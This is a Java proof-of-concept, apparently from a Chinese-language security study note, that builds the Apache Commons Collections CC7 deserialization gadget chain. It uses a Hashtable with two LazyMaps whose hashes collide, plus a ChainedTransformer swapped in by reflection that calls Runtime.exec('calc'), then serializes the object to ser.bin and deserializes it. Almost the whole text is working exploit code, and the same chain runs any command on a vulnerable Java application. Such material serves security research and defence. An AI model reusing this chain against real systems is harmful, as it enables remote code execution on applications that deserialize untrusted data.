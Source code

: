 ```index = (hash & 0x7FFFFFFF) % tab.length;``` 计算的结果为0，任何数和0取余都是0
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections4.map.DefaultedMap;

import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.*;

public class CC7 {
    public static void main(String[] args) throws Exception {
        //====================================先把ChainedTransform构造好，只不过这里要构造一个fake的先传入 两个lazymap，不然hashtable直接执行put方法的时候会提前触发链子
        Transformer[] transformers=new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new org.apache.commons.collections.functors.InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new org.apache.commons.collections.functors.InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        Transformer[] fakeTransformers = new Transformer[] {};

        ChainedTransformer chainedTransformer = new ChainedTransformer(fakeTransformers);

            HashMap hashmap1=new HashMap();
            HashMap hashmap2=new HashMap();
            Map lazyMap1=LazyMap.decorate(hashmap1,chainedTransformer);
            lazyMap1.put("yy",1);
            Map lazyMap2=LazyMap.decorate(hashmap2,chainedTransformer);
            lazyMap2.put("zZ",1);

            Hashtable hashtable=new Hashtable();
            hashtable.put(lazyMap1,1);

            hashtable.put(lazyMap2,2);


            Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
            f.setAccessible(true);
            f.set(chainedTransformer, transformers);
            lazyMap2.remove("yy");
            serialize(hashtable);
             unserialize("ser.bin");

    }

    public static void serialize(Object obj) throws Exception {
        ObjectOutputStream oos=new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String filename) throws Exception {
        ObjectInputStream ois=new ObjectInputStream(new FileInputStream(filename));
        Object obj=ois.readObject();
        return obj;
    }
    
```